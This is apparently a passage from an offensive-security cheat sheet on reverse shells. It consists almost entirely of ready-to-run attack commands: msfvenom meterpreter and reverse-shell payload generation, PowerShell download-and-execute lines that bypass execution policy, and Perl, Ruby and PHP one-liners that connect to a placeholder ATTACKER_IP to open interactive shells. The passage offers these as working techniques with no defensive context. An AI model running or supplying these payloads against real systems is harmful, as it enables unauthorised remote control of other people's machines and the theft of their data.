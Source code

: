 ```bash

# Windows:
.\meterpreter.exe
```

### One-liner PowerShell Meterpreter

```powershell
# Generate PowerShell payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f psh -o payload.ps1

# Execute on target (options)
powershell -ep bypass -f payload.ps1
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/payload.ps1')"
```

## Platform-Specific Techniques

### Linux Shell Upgrade

```bash
# Check for Python versions
which python python2 python3

# Check for other interpreters
which perl ruby php

# Perl approach
perl -e 'use Socket;$i="ATTACKER_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# Ruby approach
ruby -rsocket -e'f=TCPSocket.open("ATTACKER_IP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# PHP approach
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Windows Shell Upgrade

```powershell
# PowerShell one-liner upgrade
powershell -ep bypass "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port 4444"

# Native Windows technique
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > shell.exe
```
